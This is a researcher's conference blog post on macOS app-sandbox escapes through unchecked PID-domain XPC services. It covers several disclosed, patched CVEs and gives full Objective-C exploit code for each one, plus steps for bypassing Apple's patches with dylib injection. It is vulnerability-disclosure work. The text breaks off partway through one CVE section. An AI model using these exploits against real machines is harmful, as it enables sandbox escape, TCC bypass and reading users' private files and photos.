



This is a blog post for my presentation at the conference [POC2024](https://powerofcommunity.net/2024.htm). The slides are uploaded here.

In the macOS system, most processes are running in a restricted sandbox environment, whether they are Apple's own services or third-party applications. Consequently, once an attacker gains Remote Code Execution (RCE) from these processes, their capabilities are constrained. The next step for the attacker is to circumvent the sandbox to gain enhanced execution capabilities and broader file access permissions.

But how to discover sandbox escape vulnerabilities? Upon reviewing the existing issues, I unearthed a significant **overlooked attack surface** and a novel attack technique. This led to the discovery of **multiple new sandbox escape vulnerabilities**: CVE-2023-27944, CVE-2023-32414, CVE-2023-32404, CVE-2023-41077, CVE-2023-42961, CVE-2024-27864, CVE-2023-42977, **and more**.

# About the macOS Sandbox

### The App Sandbox

Nowadays, as required by the Mac AppStore, most applications are running with the **App Sandbox** restrictions. The sandboxed application must have the entitlement “**\<key>com.apple.security.app-sandbox\</key>\<true/>**”. The sandbox restrictions are applied in the **dyld initialization** function before the app’s main function. After entering the sandbox, it will be **containerized** and all the file operations will be limited to its data container path.

It should be noted that all the files dropped by the sandboxed application will be marked as **quarantined by default**. The dropped files will have the special **quarantine extended attribute**. And the extended attribute can’t be removed by the sandboxed app due to the configuration in the sandbox profile:

```
(deny file-write-xattr (xattr "com.apple.quarantine") (with no-log)))
```


According to the Apple’s design guide:


The applications without App Sandbox have unrestricted access to all user data and system resources. While the applications with the sandbox restrictions have only limited access.

Specifically, the capabilities of a sandboxed application are defined in the rule configuration file `/System/Library/Sandbox/Profiles/application.sb`:


For example, it will restrict access to certain **system resources** such as network and hardware. It also restricts the **filesystem access** and only a limited number of **Mach services** are reachable from a sandboxed application.

BTW, the **forked** child process will also **inherit** the application sandbox restrictions of the parent process. But the process launched via the `LaunchService.framework` **don’t inherit** the sandbox restriction. For example, you can launch a non-sandboxed application via the system `open` command directly.


### The Service Sandbox

Compared to the common application sandbox, the **Service Sandbox** is a bit different.

Most Apple’s **daemon services** are running in a **Service Sandbox** context. They are restricted by the sandbox profiles defined in these system locations:

```
/System/Library/Sandbox/Profiles/*.sb
/usr/share/sandbox/*.sb
```

The sandbox restrictions are applied in the service’s `main` function by calling the API `sandbox_init_XXX`, specified with a sandbox profile name or path **manually**. After entering the sandbox, they are usually **not containerized**. 

Most importantly, the dropped files are **not quarantined by default**, unless the **quarantine-related** APIs are invoked **manually**.


# The Attack Surfaces

## The Old Common Ways

### Attack via the LaunchService.framework

The first common method is to attack the non-sandboxed applications via the system LaunchService framework. 

The application could natively exist on the macOS system, an example is the [CVE-2021-30864](https://i.blackhat.com/EU-21/Wednesday/EU-21-Waisberg-Skeletons-In-The-App-Sandbox.pdf), which can manipulate the **$HOME** environment variable for the system non-sandboxed application **Terminal.app**. When the Terminal application is launched, the malicious payload under the controlled home path `$HOME/.profile` will be executed without the sandbox restriction.

Another attack scenario is to **drop a new non-sandboxed application** and then launch it. However, the newly dropped application will be **quarantined** and prevented from launching! So if we can drop a file or folder without being quarantined, then we can bypass the app sandbox completely. The example is the [CVE-2023-32364](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html), which abuses the **devfs** to drop a folder without being quarantined because the **devfs** doesn’t support the extended attributes.

### Attack the available Mach services

The second common way to escape the sandbox is to attack the available Mach services listed in the app sandbox profile.

All Mach service information on the system is stored in the file `/System/Library/xpc/launchd.plist`. And we can check if a Mach service is available to a sandboxed application by using the `bootstrap_look_up` API. So, it’s easy for us to enumerate all the Mach services available to app sandbox like this:

```
void checkService(const char *serviceName) {
    mach_port_t service_port = MACH_PORT_NULL;
    kern_return_t err = bootstrap_look_up(bootstrap_port, serviceName, &service_port);
    if (!err) {
      NSLog(@"available service:%s", serviceName);
      mach_port_deallocate(mach_task_self_, service_port);
    }
}

void print_available_xpc(void) {
    NSDictionary<NSString*, id>* dict = [NSDictionary dictionaryWithContentsOfFile:@"/System/Library/xpc/launchd.plist"];
    NSDictionary<NSString*, id>* launchDaemons = dict[@"LaunchDaemons"];
    for (NSString* key in launchDaemons) {
      NSDictionary<NSString*, id>* job = launchDaemons[key];
      NSDictionary<NSString*, id>* machServices = job[@"MachServices"];
      for (NSString* serviceName in machServices) {
          checkService(serviceName.UTF8String);
      }
    }
}
```

Note that these Mach services exist either in the **System domain** or the **User domain**.

More XPC services available to app sandbox are ignored by our researchers!

## The New Overlooked One

The overlooked XPC services are those that exist in the **PID domain**.

In contrast to old common XPC services that exist in the **System/User domain**, their service type is “**Application**” type rather than the “**System**” or “**User**” type. And they will be launched upon request by an app and terminate when the requesting application exits.

The XPC services for the **System/User domain** are reachable to a sandboxed application only if they are defined in the sandbox profile “**application.sb**”. But all XPC services required by an app and its framework are visible to the app’s **PID domain**.

It seems that most XPC services for the **PID domain** are not expected to be invoked from a sandboxed application, so there are no additional entitlement checks or sandbox checks for the incoming XPC clients.

I drew a table to explain their differences:


Let’s take the `SystemShoveService.xpc` as an example:


It is an XPC bundle inside the system private `ShoveService.framework`. From the infoPlist dictionary, we can see that its “Service Type” is “**Application**” and its bundle identifier is “**com.apple.installandsetup.shoveservice.system**”.

So, how to send requests to this XPC service from a sandboxed application?

Through my research, I found that registering the XPC service to a sandboxed application's PID domain is as simple as a single line of code:

```
[[NSBundle bundleWithPath:@“/System/Library/PrivateFrameworks/ShoveService.framework"]load];
```


From the call stack backtrace of bundle loading, we can see that the XPC service will be **registered** to the app’s PID domain **automatically when the corresponding framework is loaded**.

`SystemShoveService.xpc` does’t check the requested XPC client, so it can be exploited to **escape the app sandbox** after loading the `ShoveService.framework`. Moreover, it has the powerful SIP-related entitlement “**com.apple.rootless.install**”, and thus it can be exploited to **bypass the SIP protection at the same time**.

The vulnerability has been designated as **CVE-2022-26712**. More details can be found from [my previous blogpost](https://jhftss.github.io/CVE-2022-26712-The-POC-For-SIP-Bypass-Is-Even-Tweetable/).


Generally speaking, all XPC services with the Service Type “**Application**” are **potential targets** to escape the app sandbox. So we can explore this overlooked attack surface by enumerating the XPC services in the system (private) frameworks:

```
find /System/Library/Frameworks -name *.xpc
find /System/Library/PrivateFrameworks -name *.xpc
```

After discovering an XPC service for **PID Domain** that doesn’t check the incoming XPC client, we can attempt to attack the **potential target** by using the following two methods:

1. Drop an app **folder** without being quarantined. (Get a full sandbox escape like the [CVE-2023-32364](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html) did.)
2. Drop a **file** without being quarantined. (A **ZIP** or **DMG** file that contains a non-sandboxed application.)


After diving into the new overlooked attack surface, I managed to discover dozens of new sandbox escape vulnerabilities. Next are the details.

# New Vulnerabilities & Exploitations

## Beta-No-CVE-1

Apple just credited me in their [additional recognitions](https://support.apple.com/en-gb/120950): 


You may wonder why there’s no CVE assigned for this vulnerability.


According to Apple, “CVEs are only assigned to software vulnerabilities previously released to production and not to vulnerabilities for beta-only software.” This vulnerability **only affects the macOS Sonoma Beta version**.

### The issue

The vulnerability exists in the XPC service:

```
/System/Library/PrivateFrameworks/StorageKit.framework/XPCServices/storagekitfsrunner.xpc
```

The XPC service can be launched without any sandbox restrictions.

It accepts all the incoming XPC clients by returning **YES** in the delegate method:


The `SKRemoteTaskRunnerProtocol` has only one method

“`runTask:arguments:withReply:`”.


This only XPC method is designed to execute an arbitrary command with the specified arguments:


At line 30, the **executable path** and **arguments** are controlled by the sandboxed XPC client. Therefore, an attacker can abuse this XPC method to execute an arbitrary system command directly without any sandbox restrictions.

### The exploit and demo

```
@protocol SKRemoteTaskRunnerProtocol
-(void)runTask:(NSURL *)task arguments:(NSArray *)args withReply:(void (^)(NSNumber *, NSError *))reply;
@end

void exploit_storagekitfsrunner(void) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/StorageKit.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.storagekitfsrunner"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(SKRemoteTaskRunnerProtocol)];
    [conn setInterruptionHandler:^{NSLog(@"connection interrupted!");}];
    [conn setInvalidationHandler:^{NSLog(@"connection invalidated!");}];
    [conn resume];
    
    [[conn remoteObjectProxy] runTask:[NSURL fileURLWithPath:@"/usr/bin/touch"] arguments:@[@"/tmp/sbx"] withReply:^(NSNumber *bSucc, NSError *error) {
        NSLog(@"run task result:%@, error:%@", bSucc, error);
    }];
}
```

Demo link: https://youtu.be/MYkdmFOUyFA

### The patch

Apple promptly resolved the vulnerability prior to releasing macOS Sonoma 14.0 by **completely removing the vulnerable XPC service** from the operating system.


## Beta-No-CVE-2

There is no CVE assigned for this vulnerability too due to the same **Beta-only** reason.

Apple just credited me in their [additional recognitions](https://support.apple.com/en-gb/120950): 


### The issue

The vulnerability exists in the XPC service:

```
/System/Library/PrivateFrameworks/AudioAnalyticsInternal.framework/XPCServices/AudioAnalyticsHelperService.xpc
```

The XPC service can be launched without any sandbox restrictions.

It accepts all the incoming XPC clients by returning **YES** in the delegate method:


The `AudioAnalyticsHelperServiceProtocol` has two methods:


The issue exists in the second XPC method “`createZipAtPath:hourThreshold:withReply:`”. The following is pseudo-code from the Objective-c class `AudioAnalyticsHelperService`:

```
// reversed from the Objective-c class AudioAnalyticsHelperService

-(void) createZipAtPath:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply {
    NSString *compressPath = [path stringByAppendingPathComponent:@"compressed"];
    NSFileManager *fm = [NSFileManager defaultManager];
    if (![fm fileExistsAtPath:compressPath]) {
        [fm createDirectoryAtPath:compressPath withIntermediateDirectories:YES attributes:nil error:nil];
    }
    
    for (NSString *item in [fm contentsOfDirectoryAtPath:path error:nil]) {
        if ([[item pathExtension] isEqualToString:@"json"]) {// && the file creation date meets the requirement
            NSString *srcPath = [path stringByAppendingPathComponent:item];
            NSString *dstPath = [compressPath stringByAppendingPathComponent:item];
            [fm moveItemAtPath:srcPath toPath:dstPath error:nil];
        }
    }
    
    NSString *zipPath = [path stringByAppendingPathComponent:[NSString stringWithFormat:@"audio_analytics_reporting_%@.zip", [self nowTimeString]]];
    [self createZipArchiveForURL:[NSURL fileURLWithPath:compressPath] destinationURL:[NSURL fileURLWithPath:zipPath]];
}
```

As we can see here, it helps to compress an arbitrary path that is specified by the XPC client. 

It first creates a folder named `compressed` in the specified path, if the path does not exist. It then enumerates the files in the specified path with the `json` suffix and moves them to the `compressed` folder. In the file move operation, an attacker can move an arbitrary file to an arbitrary location by replacing the `compressed` folder with a symlink. The source file content is not checked, but the destination file path must have the suffix `json`.

Finally, it creates a zip file from the `compressed` folder. 

Note that the **newly generated zip file will not be quarantined** because the XPC service itself is not sandboxed at all.

### The exploit and demo

```
@protocol AudioAnalyticsHelperServiceProtocol
-(void)pruneZips:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
-(void)createZipAtPath:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
@end
void exploit_AudioAnalyticsHelperService(void) {
    NSString *currentPath = NSTemporaryDirectory();
    chdir([currentPath UTF8String]);
    NSLog(@"======== preparing payload at the current path:%@", currentPath);
    system("mkdir -p compressed/poc.app/Contents/MacOS; touch 1.json");
    [@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:@"compressed/poc.app/Contents/MacOS/poc" atomically:YES encoding:NSUTF8StringEncoding error:0];
    system("chmod +x compressed/poc.app/Contents/MacOS/poc");
    
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/AudioAnalyticsInternal.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.internal.audioanalytics.helper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(AudioAnalyticsHelperServiceProtocol)];
    [conn resume];
    
    [[conn remoteObjectProxy] createZipAtPath:currentPath hourThreshold:0 withReply:^(id *error){
        NSDirectoryEnumerator *dirEnum = [[[NSFileManager alloc] init] enumeratorAtPath:currentPath];
        NSString *file;
        while ((file = [dirEnum nextObject])) {
            if ([[file pathExtension] isEqualToString: @"zip"]) {
                // open the zip
                NSString *cmd = [@"open " stringByAppendingString:file];
                system([cmd UTF8String]);

                sleep(3); // wait for decompression and then open the payload (poc.app)
                NSString *cmd2 = [NSString stringWithFormat:@"open /Users/%@/Downloads/%@/poc.app", NSUserName(), [file stringByDeletingPathExtension]];
                system([cmd2 UTF8String]);
                break;
            }
        }
    }];
}
```

Demo link: https://youtu.be/7zd2Lun5r2s

### The patch

Apple quickly addressed the vulnerability prior to releasing macOS Sonoma 14.0 by checking the entitlement “**com.apple.audioanalytics.helper.service**” from the incoming XPC client:


If the client doesn’t have the special entitlement in its code signature, the XPC service will deny the XPC connection directly.

Now in the latest macOS, the private `AudioAnalyticsInternal.framework` and the XPC service have been removed completely.


## CVE-2023-27944


### The issue

The vulnerability exists in the XPC service:

```
/System/Library/PrivateFrameworks/TrialServer.framework/XPCServices/TrialArchivingService.xpc
```

This XPC service will enter the **Service Sandbox** by using the sandbox profile `/System/Library/Sandbox/Profiles/com.apple.trial.TrialArchivingService.sb`:


However, the dropped files will not be quarantined.

It accepts all the incoming XPC clients by returning **YES** in the delegate method:


The `TrialArchivingServiceProtocol` has four methods:


The issue exists in the XPC method “`extractArchiveFromHandle:withArchiveName:toDirectory:destDirExtension:postExtractionCompression:completion:`”.


It helps to extract an archive file passed from a sandboxed application to a specified location. However, it **doesn’t pass the quarantine extended attribute to the extracted content**.

### The exploit and demo

There is a small challenge to exploit the issue. 

By abusing the XPC method, the macho file in the archive will lose the **executable (X)** permission after the extraction. So the extracted application cannot be launched directly. Then I came up with a similar vulnerability to overcome this challenge: [CVE-2021-30990](https://breakpoint.sh/posts/bypassing-the-macos-gatekeeper) can be exploited not only to bypass the gatekeeper, but also to escape the application sandbox. The trick to that exploit is to use symlink rather than the macho file itself.

Then I encountered another new challenge:


This XPC method only supports to extract **directories** and **regular files**, and does not allow extracting **symlink** from the archive.

To overcome the new challenge, I extract the payload application to the sandboxed **app container path**, where the sandboxed app has the read and write permission. (Luckily, the service sandbox profile is not too strict here.) Next, I can create the symlink from the sandboxed application directly, or just assign the executable permission to the extracted macho by calling the API `chmod`.

(Another simple solution is to archive the payload application twice. Abusing the vulnerable XPC method to unpack the external zip file and then using the system `open` command to unpack the inner zip file.)

The exploit code is as follows:

```
@protocol TrialArchivingServiceProtocol <NSObject>
- (void) extractArchiveFromHandle:(NSFileHandle *)archiveHandle withArchiveName:(NSString *)archiveName toDirectory:(NSURL *)dstURL destDirExtension:(NSString *)destDirToken postExtractionCompression:(unsigned long long)post completion:(void (^)(unsigned char))reply;
@end

void exploit_TrialArchivingService(void) {
    [[NSBundle bundleWithURL:[NSURL fileURLWithPath:@"/System/Library/PrivateFrameworks/TrialServer.framework"]] load];
    NSXPCConnection *connection = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.trial.TrialArchivingService"];
    connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(TrialArchivingServiceProtocol)];
    [connection resume];
    // archive file handle
    NSURL *payload = [[NSBundle mainBundle] URLForResource:@"sbx.app" withExtension:@"zip"];
    NSFileHandle *archiveHandle = [NSFileHandle fileHandleForReadingAtPath:[payload path]];
    // destination directory
    NSString *dstPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Trial/v0/AssetStore"];
    [[NSFileManager defaultManager]createDirectoryAtPath:dstPath withIntermediateDirectories:YES attributes:0 error:0];
    NSURL *dstURL = [NSURL fileURLWithPath:dstPath];
    // destination directory sandbox extension
    typedef const char *(*PFN)(const char *extension_class, const char *path, uint32_t flags);
    void *h = dlopen("/usr/lib/system/libsystem_sandbox.dylib", 2);
    PFN sandbox_extension_issue_file = (PFN)dlsym(h, "sandbox_extension_issue_file");
    const char *token = sandbox_extension_issue_file("com.apple.app-sandbox.read-write", [dstPath UTF8String], 2);
    // fire the hole, it will extract the archive file bundle to this App container, without the quarantine extended attribute
    __block dispatch_semaphore_t done = dispatch_semaphore_create(0);
    [connection.remoteObjectProxy extractArchiveFromHandle:archiveHandle withArchiveName:@"exploit" toDirectory:dstURL destDirExtension:[NSString stringWithUTF8String:token] postExtractionCompression:0 completion:^(unsigned char ret) {
        NSLog(@"ret:%d", ret);
        dispatch_semaphore_signal(done);
    }];
    dispatch_semaphore_wait(done, DISPATCH_TIME_FOREVER);
    // However, this extraction will drop the executable (X) permission. Create a symlink as a workaround
    NSString *target = [dstPath stringByAppendingPathComponent:@"sbx.app/Contents/MacOS/Automator Application Stub"];
    symlink("/System/Library/CoreServices/Automator Application Stub.app/Contents/MacOS/Automator Application Stub", [target UTF8String]);
    NSString *openCmd = [NSString stringWithFormat:@"open %@/sbx.app", dstPath];
    system([openCmd UTF8String]);
}
```

Demo link: https://youtu.be/VbqGbxmSLoA

### The patch

Apple addressed the vulnerability in macOS Ventura 13.3 by checking the entitlement “**com.apple.TrialArchivingService.internal**” from the incoming XPC client:


If the client doesn’t have the special entitlement in its code signature, the XPC service will deny the XPC connection directly.


## CVE-2023-32414



### The issue

The vulnerability exists in the XPC service:

```
/System/Library/PrivateFrameworks/DesktopServicesPriv.framework/XPCServices/ArchiveService.xpc
```

This XPC service will enter the service sandbox by using a sandbox profile, but the **dropped files will not be quarantined**.

It accepts all the incoming XPC clients by returning **YES** in the delegate method:


The `DSArchiveServiceProtocolInternal` has five methods:


The issue exists in the XPC method “`unarchiveItemWithURLWrapper:…`”:


This XPC method helps to unarchive an item passed from a sandboxed application to a specified location. However, it doesn’t pass the quarantine extended attribute to the extracted content. Therefore, a sandboxed application can drop arbitrary files without being marked as quarantined by abusing this XPC method.

### The exploit and demo

The XPC client has already been implemented in the Objective-c class `DSArchiveService` within the `DesktopServicesPriv.framework`. The exploit code is as follows:

```
@interface DSArchiveService : NSObject
- (void)unarchiveItemAtURL:(id) itemURL passphrase:(id) password destinationFolderURL:(id) dstURL completionHandler:(void (^)(NSURL *, NSError *))arg2;
@end

void prepare(void) {
    NSLog(@"preparing %@/payload.zip", NSHomeDirectory());
    system("mkdir -p poc.app/Contents/MacOS; mkdir dst");
    [@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:@"poc.app/Contents/MacOS/poc" atomically:YES encoding:NSUTF8StringEncoding error:0];
    system("chmod +x poc.app/Contents/MacOS/poc; zip -r payload.zip poc.app");
}

void exploit_ArchiveService(void) {
    [[NSBundle bundleWithURL:[NSURL fileURLWithPath:@"/System/Library/PrivateFrameworks/DesktopServicesPriv.framework"]] load];
    DSArchiveService *service = [[objc_getClass("DSArchiveService") alloc]init];
    
    NSString *payloadPath = [NSHomeDirectory() stringByAppendingPathComponent:@"payload.zip"];
    NSString *dstPath = [NSHomeDirectory() stringByAppendingPathComponent:@"dst"];
    [service unarchiveItemAtURL:[NSURL fileURLWithPath:payloadPath] passphrase:nil destinationFolderURL:[NSURL fileURLWithPath:dstPath] completionHandler:^(NSURL *dstFolder, NSError *error) {
        NSLog(@"dstFolderURL:%@, error:%@", dstFolder, error);
        NSString *cmd = [NSString stringWithFormat:@"open %@/poc.app", [dstFolder path]];
        system([cmd UTF8String]);
    }];
}
```

Demo link: https://youtu.be/RMyKyHYibSk

### The patch

Apple addressed the vulnerability in macOS Ventura 13.4 by checking the entitlement “**com.apple.private.ArchiveService.XPC**” from the incoming XPC client:


If the client doesn’t have the special entitlement in its code signature, the XPC service will deny the XPC connection directly.


## CVE-2023-32404


### The issue

The vulnerability exists in the XPC service:

```
/System/Library/PrivateFrameworks/WorkflowKit.framework/XPCServices/ShortcutsFileAccessHelper.xpc
```

The XPC service can be launched without any sandbox restrictions. So it can be exploited to escape the application sandbox.

Moreover, it also has the special TCC entitlement in its code signature for **Full Disk Access**:


Therefore, it can also be exploited to bypass the TCC protection completely!

It accepts all the incoming XPC clients by returning **YES** in the delegate method:


The `WFFileAccessHelperProtocol` has only one method `extendAccessToURL:completion:`:


The only XPC method is designed to grant the read and write permission of an arbitrary URL to the XPC client:


Internally, it calls the API `sandbox_extension_issue_file` to issue the file access token.

The arbitrary URL is specified from the sandboxed XPC client. 

### The exploit and demo

```
@protocol WFFileAccessHelperProtocol
- (void) extendAccessToURL:(NSURL *) url completion:(void (^) (FPSandboxingURLWrapper *, NSError *))arg2;
@end
typedef int (*PFN)(const char *);
void expoit_ShortcutsFileAccessHelper(NSString *target) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/WorkflowKit.framework"]load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.WorkflowKit.ShortcutsFileAccessHelper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(WFFileAccessHelperProtocol)];
    [conn.remoteObjectInterface setClasses:[NSSet setWithArray:@[[NSError class], objc_getClass("FPSandboxingURLWrapper")]] forSelector:@selector(extendAccessToURL:completion:) argumentIndex:0 ofReply:1];
    [conn resume];
    
    [[conn remoteObjectProxy] extendAccessToURL:[NSURL fileURLWithPath:target] completion:^(FPSandboxingURLWrapper *fpWrapper, NSError *error) {
        NSString *sbxToken = [[NSString alloc] initWithData:[fpWrapper scope] encoding:NSUTF8StringEncoding];
        NSURL *targetURL = [fpWrapper url];
        
        void *h = dlopen("/usr/lib/system/libsystem_sandbox.dylib", 2);
        PFN sandbox_extension_consume = (PFN)dlsym(h, "sandbox_extension_consume");
        if (sandbox_extension_consume([sbxToken UTF8String]) == -1)
            NSLog(@"Fail to consume the sandbox token:%@", sbxToken);
        else {
            NSLog(@"Got the file R&W permission with sandbox token:%@", sbxToken);
            NSLog(@"Read the target content:%@", [NSData dataWithContentsOfURL:targetURL]);
        }
    }];
}
```

Demo link: https://youtu.be/5FVDe8Le1pw

### The patch

Apple addressed the vulnerability in macOS Ventura 13.4 by checking the entitlement “**com.apple.shortcuts.file-access-helper**” from the incoming XPC client:


If the client doesn’t have the special entitlement in its code signature, the XPC service will deny the XPC connection directly.


## CVE-2023-41077


### The issue

The vulnerability exists in the XPC service:

```
/System/Library/Frameworks/ImageCaptureCore.framework/XPCServices/mscamerad-xpc.xpc
```

Similarly, the XPC service can be launched without any sandbox restrictions. So it can be exploited to escape the application sandbox.

What’s more, it has the special TCC entitlement in its code signature to access the **Photos** and **Removable Volumes** directly without prompting the users:


Therefore, it can also be exploited to bypass these TCC protections at the same time!

The main logic is to listen at the service named “**com.apple.mscamerad-xpc**”.

Similarly, this XPC service accepts all the incoming XPC clients by returning **YES** in the delegate method:


The `ICXPCDeviceManagerProtocol` has six methods:


Specially, the XPC method “`openDevice:withReply:`” is designed to open and construct a new `MSCameraDevice`:


During the initialization of the new device, it listens at another anonymous XPC service to provide some service routines for the new camera device:


The anonymous XPC service accepts all the incoming XPC clients by returning YES in the camera device’s delegate method:


The `ICCameraDeviceProtocol` has 23 methods:


The issue exists in the XPC method “`requestReadDataFromObjectHandle:options:withReply:`”:


It reads the file content for the requested file item and replies the file content data to the XPC client. The requested file path is controlled from the XPC client. So a sandboxed application can exploit this XPC method to read an arbitrary file outside of the sandbox container. 

At the same time, the sandboxed app can also read the user’s **Photos** directly without prompting the users due to the service’s powerful TCC entitlements.

### The exploit and demo

In order to trigger the vulnerability, we need to prepare the camera device and the camera file.

Through my research, I discovered that the **MSCameraDevice** can be emulated by creating a DMG file and mounting it. 

Next, if a file path in the DMG volume matches the special **regular expression**, then the file item will be indexed as an **ICCameraFile** and the file data can be requested via the vulnerable XPC method:


```
folderNameRegex = [NSRegularExpression regularExpressionWithPattern:@"^([1-9]{1}[\\d]{2}[\\w]{5})$|^((?i)\\bDCIM\\b)$" options:16 error:0];// e.g. 123abcde, DCIM, dcIm, ...
fileNameRegex = [NSRegularExpression regularExpressionWithPattern:@"^[\\w]{4}(E){0,1}(\\d){4}\\.(([\\w]){3}|HEIC)$" options:16 error:0];// e.g. abcd1234.mp3, 1234E5678.HEIC
```

So we can make a fake camera device and camera file like this:


A sandboxed application could drop the DMG file and then open the DMG file to mount it to trigger the issue.

The XPC client has already been implemented in the ImageCaptureCore framework. The exploit code is as follows:

```
@interface MyDeviceDelegate : NSObject<ICCameraDeviceDelegate>
@end
@implementation MyDeviceDelegate
- (void)cameraDevice:(ICCameraDevice *)camera didAddItems:(NSArray<ICCameraItem *> *)items { 
    NSLog(@"didAddItems");
    for (ICCameraFile *item in items) {
        NSLog(@"new file item:%@", item); // TODO: I should check the item type(file/folder) and item name here.
        [item requestReadDataAtOffset:0 length:item.fileSize completion:^(NSData *data, NSError *err) {
            NSLog(@"Got file data:%@ (%@)", data, [NSString stringWithCString:[data bytes] encoding:NSUTF8StringEncoding]);
        }];
    }
}
@end
@interface MyDeviceBrowserDelegate : NSObject<ICDeviceBrowserDelegate>
@end
@implementation MyDeviceBrowserDelegate
- (void)deviceBrowser:(ICDeviceBrowser *)browser didAddDevice:(ICDevice *)device moreComing:(BOOL)moreComing { 
    NSLog(@"didAddDevice:%@", device);
    device.delegate = devDelegate; // instance of MyDeviceDelegate
    [device requestOpenSession];
}
@end
void exploit(void) {
    ICDeviceBrowser *deviceBrowser = [[ICDeviceBrowser alloc]init];
    MyDeviceBrowserDelegate *browserDelegate = [[MyDeviceBrowserDelegate alloc]init];
    deviceBrowser.delegate = browserDelegate;
    [deviceBrowser start];
}
```

Demo link: https://youtu.be/bvJwne8b2g4

### The patch 1

Apple addressed the vulnerability in macOS Sonoma 14 by adding a new check in the function `acceptConnection:`:


The check function returns **OK** if the incoming XPC client meets one of the following **two conditions**:


- Return OK if the client has the private entitlement: “**com.apple.private.imagecapturecore.authorization_bypass**”.
- Return OK **if the client is a platform binary!**

### The bypass 1

The second condition doesn't make any sense because the **platform binary** is not trustworthy and **easy to inject**! Then I reported the new issue to Apple. As a result, Apple assigned **CVE-2024-23253** to this bypass report:


Here's how I bypassed the patch to access the TCC-protected contents:

1. Make a dylib from the previous old exploit code
2. Choose a platform binary (It must be signed by Apple and has no entitlements. e.g., `/bin/ls`)
3. Inject into the platform binary by using the environment variable `DYLD_INSERT_LIBRARIES`
4. Talk to the XPC service as before

### The patch 2

Apple patched the issue again in macOS 14.4 by hardening the second condition:


From the new patch code, we can see that it requires the XPC client to not only be the **platform binary**, but also to be signed with the flags: “**CS_REQUIRE_LV | CS_FORCED_LV**”.

### The bypass 2

Apple thought that the new required flags would kill the dynamic library injection exploits. But they were wrong. The checks here can still be bypassed! Again, I reported the new bypass to Apple and they assigned the new CVE-2024-40831 for it:


Here's how I exploited it again:

1. Make a dylib from the previous old exploit code
2. Choose a platform binary (It must be signed by Apple and has no entitlements. e.g., `/bin/ls`)
3. Inject into the platform binary by using the environment variable `DYLD_INSERT_LIBRARIES`
4. **Set the required flags manually**
5. Talk to the XPC service as before

Compared to the previous exploit, only one additional step has been added. After injecting into the platform binary “`ls`” command, the exploit process doesn’t have the required flags. However, the desired flags can be set manually at runtime via the system API “`csops`”:


As a result, the exploit process will bypass all the checks and talk to the XPC service as before!

### The patch 3

Apple patched this issue again in macOS Sequoia 15:


Now, It will approve the XPC connection, only if the XPC client has the private entitlement: “**com.apple.private.imagecapturecore.authorization_bypass**”.


## CVE-2023-42961


Note that this vulnerability can also be exploited on **iOS**.

### The issue

The vulnerability exists in the XPC service:

```
/System/Library/Frameworks/Intents.framework/XPCServices/intents_helper.xpc
```

The XPC service can be launched without any sandbox restrictions.

It accepts all the incoming XPC clients by returning **YES** in the delegate method:


